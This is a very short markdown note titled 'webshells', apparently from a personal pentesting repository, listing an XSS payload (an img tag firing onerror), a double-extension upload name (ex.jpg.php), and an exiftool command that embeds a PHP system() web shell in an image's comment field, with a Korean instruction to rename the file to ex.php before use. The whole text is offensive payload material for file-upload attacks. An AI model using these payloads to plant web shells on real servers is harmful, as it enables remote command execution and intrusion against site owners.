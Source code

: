 # webshells
<img src='' onerror='alert(1)'>
1. ex.jpg.php<br>
exiftool -Comment='<?php system("ls"); ?>' ex.jpg
사용할때는 ex.php로 바꿔서 사용
